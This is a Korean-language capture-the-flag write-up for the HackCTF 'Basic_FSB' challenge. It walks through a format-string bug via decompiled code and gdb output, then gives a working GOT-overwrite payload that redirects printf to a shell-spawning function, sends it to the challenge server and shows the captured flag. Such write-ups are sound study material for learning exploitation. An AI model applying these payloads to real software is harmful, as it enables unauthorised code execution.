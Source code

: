 #Basic_FSB

---

기본적인 format string bug 문제이다. 우선 ida를 이용하여 보았더니 다음과 같은 취약한 함수가 보였다.
```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```
이 코드에서는 s에 입력한 문자열을 format으로 옮긴다음 format을 실행시킨다. 이 취약한 함수 `vuln()`의 assembly code는 다음과 같다.

```assembly
gdb-peda$ pd vuln
Dump of assembler code for function vuln:
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	sub    esp,0x808
   0x08048554 <+9>:	sub    esp,0xc
   0x08048557 <+12>:	push   0x80486b0
   0x0804855c <+17>:	call   0x80483d0 <printf@plt>
   0x08048561 <+22>:	add    esp,0x10
   0x08048564 <+25>:	mov    eax,ds:0x804a040
   0x08048569 <+30>:	sub    esp,0x4
   0x0804856c <+33>:	push   eax
   0x0804856d <+34>:	push   0x400
   0x08048572 <+39>:	lea    eax,[ebp-0x808]
   0x08048578 <+45>:	push   eax
   0x08048579 <+46>:	call   0x80483e0 <fgets@plt>
   0x0804857e <+51>:	add    esp,0x10
   0x08048581 <+54>:	sub    esp,0x4
   0x08048584 <+57>:	lea    eax,[ebp-0x808]
   0x0804858a <+63>:	push   eax
   0x0804858b <+64>:	push   0x400
   0x08048590 <+69>:	lea    eax,[ebp-0x408]
   0x08048596 <+75>:	push   eax
   0x08048597 <+76>:	call   0x8048430 <snprintf@plt>
   0x0804859c <+81>:	add    esp,0x10
   0x0804859f <+84>:	sub    esp,0xc
   0x080485a2 <+87>:	lea    eax,[ebp-0x408]
   0x080485a8 <+93>:	push   eax
   0x080485a9 <+94>:	call   0x80483d0 <printf@plt>
   0x080485ae <+99>:	add    esp,0x10
   0x080485b1 <+102>:	nop
   0x080485b2 <+103>:	leave  
   0x080485b3 <+104>:	ret    
End of assembler dump.
```

이 함수의 ret주소를 다음 `flag()`의 주소로 바꾼다면 쉘을 따낼 수 있을 것이다.
```c
    int flag()
    {
      puts("EN)you have successfully modified the value :)");
      puts(aKr);
      return system("/bin/sh");
    }
```
---


`vuln()+104`에서 break를 걸고 `vuln()`의 ret주소의 위치를 찾아보자.

```gdb
    [----------------------------------registers-----------------------------------]
    EAX: 0x5 
    EBX: 0x0 
    ECX: 0xffffffff 
    EDX: 0xf7fb7870 --> 0x0 
    ESI: 0xf7fb6000 --> 0x1b1db0 
    EDI: 0xf7fb6000 --> 0x1b1db0 
    EBP: 0xffffce68 --> 0x0 
    ESP: 0xffffce5c --> 0x8048617 (<main+42>:	moveax,0x0)
    EIP: 0x80485b3 (<vuln+104>:	ret)
    EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x80485ae <vuln+99>:	add esp,0x10
       0x80485b1 <vuln+102>:	nop
       0x80485b2 <vuln+103>:	leave  
    => 0x80485b3 <vuln+104>:	ret
       0x80485b4 <flag>:	push   ebp
       0x80485b5 <flag+1>:	mov ebp,esp
       0x80485b7 <flag+3>:	sub esp,0x8
       0x80485ba <flag+6>:	sub esp,0xc
```
이때의 esp의 주소는 0xffffce5c이다. 때문에 `vuln()`의 return address는 0xffffce5c이다.

**vuln() return address: 0xffffce5c**


또한 `flag()`의 주소는 다음과 같다.

```bash
    gdb-peda$ p flag
    $1 = {<text variable, no debug info>} 0x80485b4 <flag>
```
**flag() address: 0x80485b4**

---

필요한 정보를 모두 얻었으니 적절한 payload를 찾아보자. 

```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```
다음 코드에서 `printf()`에서 취약점이 발생하는데, 이 함수가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - printf() return address(4bytes) - format주소(4bytes) - s(1024bytes) - format(1024bytes) <higher\>**

0xffffce5c에 대입하고자 하는 주소인 0x80485b4는 134514100이기 때문에 int범위 안에 속한다. 때문에 %n을 이용해서 한번에 처리할 수 있다.

때문에 payload를 다음과 같이 짤 것이다.

**[dummy 4bytes]+[0xffffce5c]+%134514092x+%n**

134514092라는 값은 0x80485b4인 134514100에서 앞에 출력된 8bytes를 뺀 값이다.

이를 시도하려고 했지만 ASLR때문에 이 방법은 불가능하다는 것을 알게 되었다.

---

위와 비슷하지만 조금 다른 방법을 떠올려보자. 

보안기법을 보면 다음과 같다.

```bash
    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial
```
때문에 got overwrite가 가능하다.

이번에는 조금 다르게 `snprintf()`에서 format string bug를 일으켜 `printf()`의 got를 flag의 주소로 overwrite 할 것이다.

이를 위해서 필요한 정보를 찾아보자.

우선 `printf()`의 got주소는 다음과 같다.
```gdb
    gdb-peda$ p printf
    $2 = {<text variable, no debug info>} 0x80483d0 <printf@plt>
    gdb-peda$ x/i 0x80483d0
       0x80483d0 <printf@plt>:	jmp DWORD PTR ds:0x804a00c
```
**printf() got address: 0x804a00c**

그리고 `flag()`의 주소는 다음과 같음을 위에서 알 수 있었다.

**flag() address: 0x80485b4**

---

이제 다시 적절한 payload를 짜보자.
```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```
다음과 같은 코드에서 `snprintf()`가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - snprintf() return address(4bytes) - format address(4bytes) - 0x400u(4bytes) - s address(4bytes) - format(1024bytes) - s(1024bytes) <higher\>**

0x80485b4를 십진수로 변환하면 134514100이기 때문에 다음과 같이 payload를 짤 수 있다.

**0x804a00c + %134514096x + %$257n**

134514096이라는 숫자는 0x80485b4를 십진수로 변환한 134514100에서 앞에 나온 4bytes를 뺀 값이다. 또한 %$257n은 stack상황에서 s address와 s의 위치가 1024bytes 차이가 나기 때문에 다음과 같이 지정해야 257번째 인자의 위치가 0x804a00c가 된다.
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/3.Basic_FSB$ (python -c "print '\x0c\xa0\x04\x08'+'%134514096x'+'%$257n'";cat) | nc ctf.j0n9hyun.xyz 3002
    input : EN)you have successfully modified the value :)
    KR)#값조작 #성공적 #플래그 #FSB :)
    pwd
    /home/attack
    ls
    flag
    main
    cat flag
    HackCTF{여보게_오늘_반찬은_포맷스트링이_어떠한가?}
```
**flag: HackCTF{여보게\_오늘\_반찬은\_포맷스트링이\_어떠한가?}**
    
